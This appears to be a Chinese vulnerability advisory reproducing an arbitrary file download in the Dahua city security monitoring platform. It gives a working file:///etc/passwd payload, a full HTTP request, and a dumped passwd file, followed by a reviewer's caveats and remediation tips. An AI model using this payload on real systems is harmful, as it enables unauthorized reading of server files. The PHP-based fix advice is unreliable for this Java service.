

# 大华 城市安防监控系统平台管理 任意文件下载漏洞

> 版本字段校订（2026-10-04）：代码、命令、路径、产品名或章节标记误入版本字段的值已逐字保存到对应 `previous_*` 字段；当前版本字段只记正文明确的来源范围，无范围时记为 unknown。后文对此元数据误填的旧说明描述校订前状态，其余实验条件与待核项仍按原文保留。

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：大华城市安防监控系统平台
- 本文讨论：attachment_downloadByUrlAtt.action filePath文件读取
- 版本、权限与配置前提：Linux示例，无Cookie请求；未给版本
- 资料类型：文件下载复现；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- 修复建议用PHP open_basedir对Java action/Apache-Coyote服务不适配
- 黑名单过滤目录字符不能覆盖本例file://绝对路径；版本栏只是产品名
- 已落实的文本修订：HTTP 报文围栏改为 http。上列仍描述旧文问题时，以此落实项及下列限定为准；修订不代表运行验证

### 操作风险与恢复

- 读取内容可能包含配置、账户或个人数据；应只保存授权环境中最小必要的响应，不能由接口可达推定敏感内容已泄露

### 待核与来源

- 匿名访问、全文件读取权限及受影响版本待外部验证
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->


<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/x-yyaFrGc-cwS7Zm6rdwEg)

**本文所提供的信息只为网络安全人员对自己所负责的网站、服务器等（包括但不限于）进行检测或维护参考，未经授权请勿利用文章中的技术资料对任何计算机系统进行入侵操作。利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责。**

**漏洞说明**

大华城市安防监控系统平台是一款集视频、报警、存储、管理于一体的综合安防解决方案。该平台支持多种接入方式，包括网络视频、模拟视频、数字视频、IP 电话、对讲机等。此外，该平台还支持多种报警方式，包括移动侦测、区域入侵、越线报警、人员聚集等。

大华城市安防监控系统平台管理存在任意文件下载漏洞，攻击者通过漏洞可以下载服务器上的任意文件

**影响版本**

```
大华城市安防监控系统平台管理

```

**漏洞复现**


payload:

```
/portal/attachment_downloadByUrlAtt.action?filePath=file:///etc/passwd

```

请求包：  

```http
GET /portal/attachment_downloadByUrlAtt.action?filePath=file:///etc/passwd HTTP/1.1
Host: ip:port
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

```

响应包：  

```
HTTP/1.1 200 OK
Server: Apache-Coyote/1.1
Set-Cookie: JSESSIONID=23A98843BC5D957E2E1F65C0ED593393; Path=/portal
Content-disposition: attachment;filename=passwd
Date: Sun, 09 Jul 2023 23:57:00 GMT
Connection: close
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
news:x:9:13:news:/etc/news:
uucp:x:10:14:uucp:/var/spool/uucp:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
gopher:x:13:30:gopher:/var/gopher:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
vcsa:x:69:69:virtual console memory owner:/dev:/sbin/nologin
nscd:x:28:28:NSCD Daemon:/:/sbin/nologin
rpm:x:37:37::/var/lib/rpm:/sbin/nologin
haldaemon:x:68:68:HAL daemon:/:/sbin/nologin
netdump:x:34:34:Network Crash Dump user:/var/crash:/bin/bash
ident:x:98:98::/home/ident:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
rpc:x:32:32:Portmapper RPC user:/:/sbin/nologin
rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
nfsnobody:x:65534:65534:Anonymous NFS User:/var/lib/nfs:/sbin/nologin
mailnull:x:47:47::/var/spool/mqueue:/sbin/nologin
smmsp:x:51:51::/var/spool/mqueue:/sbin/nologin
pcap:x:77:77::/var/arpwatch:/sbin/nologin
apache:x:48:48:Apache:/var/www:/sbin/nologin
squid:x:23:23::/var/spool/squid:/sbin/nologin
webalizer:x:67:67:Webalizer:/var/www/usage:/sbin/nologin
xfs:x:43:43:X Font Server:/etc/X11/fs:/sbin/nologin
ntp:x:38:38::/etc/ntp:/sbin/nologin
gdm:x:42:42::/var/gdm:/sbin/nologin
htt:x:100:101:IIIMF Htt:/usr/lib/im:/sbin/nologin
pvm:x:24:24::/usr/share/pvm3:/bin/bash
canna:x:39:39:Canna Service User:/var/lib/canna:/sbin/nologin
wnn:x:49:49:Wnn Input Server:/var/lib/wnn:/sbin/nologin
quagga:x:92:92:Quagga routing suite:/var/run/quagga:/sbin/nologin
cyrus:x:76:12:Cyrus IMAP Server:/var/lib/imap:/bin/bash
dovecot:x:97:97:dovecot:/usr/libexec/dovecot:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
mailman:x:41:41:GNU Mailing List Manager:/usr/lib/mailman:/sbin/nologin
postgres:x:26:26:PostgreSQL Server:/var/lib/pgsql:/bin/bash
amanda:x:33:6:Amanda user:/var/lib/amanda:/bin/bash
fax:x:78:78:mgetty fax spool user:/var/spool/fax:/sbin/nologin
named:x:25:25:Named:/var/named:/sbin/nologin
exim:x:93:93::/var/spool/exim:/sbin/nologin
ldap:x:55:55:LDAP User:/var/lib/ldap:/bin/false
radiusd:x:95:95:radiusd user:/:/bin/false
radvd:x:75:75:radvd user:/:/sbin/nologin
admin:x:506:506:root:/home/admin:/etc/dh_cli/debug
guest:x:507:507:Linux User,,,:/home/guest:/bin/nologin
ftpuser:x:508:508:Linux User,,,:/home/ftpuser:/bin/nologin
dh_admin:x:509:509:Linux User,,,:/home/dh_admin:/etc/dh_cli/debug
mysql:x:501:501::/home/mysql:/sbin/nologin
system:x:510:510:Linux User,,,:/home/system:/sbin/nologin
dss:x:1000:1000:Linux User,,,:/opt/ftp:/sbin/nologin
log:x:1001:1001:Linux User,,,:/log:/bin/sh

```



**修复建议**  

配置文件：在配置文件中限制访问的文件目录，比如 PHP 中 php.ini 配置 open_basedir  
特殊字符过滤：检查用户输入，过滤或转义含有 “../”、“..\”、“%00”，“..”，“./”，“#” 等跳转目录或字符终止符、截断字符的输入  
合法性判断：严格过滤用户输入字符的合法性，比如文件类型、文件地址、文件内容等  
白名单：白名单限定访问文件的路径、名称及后缀名  

本文章仅用于学习交流，不得用于非法用途

星标加关注，追洞不迷路

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
